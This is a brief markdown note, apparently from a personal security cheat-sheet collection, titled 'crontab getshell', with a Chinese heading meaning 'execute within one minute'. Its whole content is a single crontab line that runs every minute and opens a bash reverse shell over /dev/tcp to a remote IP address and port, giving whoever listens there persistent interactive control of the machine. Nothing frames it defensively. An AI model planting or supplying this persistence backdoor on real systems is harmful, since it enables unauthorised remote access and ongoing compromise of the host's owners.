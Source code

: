 ```yaml
---
title: "crontab getshell"
author: ["4shen0ne"]
draft: false
---
```


## 一分钟内执行 {#一分钟内执行}

```text
*/1 * * * * bash -i >& /dev/tcp/192.168.25.128/9999 0>&1
```
